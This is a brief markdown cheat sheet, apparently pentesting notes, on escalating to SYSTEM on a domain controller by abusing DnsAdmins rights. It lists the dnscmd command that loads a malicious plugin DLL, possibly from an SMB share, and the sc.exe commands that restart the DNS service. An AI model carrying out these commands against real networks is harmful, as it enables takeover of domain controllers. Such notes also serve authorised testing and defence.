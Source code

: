 # DNS Admin PrivEsc #

- The DNS service on a DC usually runs with `SYSTEM` permissions.
- DNS Admins can configure the DNS service with "plugin" DLLs.
- If you have compromised a DNS admin, you can add a malicious DLL as a plugin, restart the DNS service, and Bob's your uncle.
- Commands:
  - `dnscmd.exe . /config /serverlevelplugindll [location]`
    - `location` can be an SMB share
  - `sc.exe stop dns`
  - `sc.exe start dns`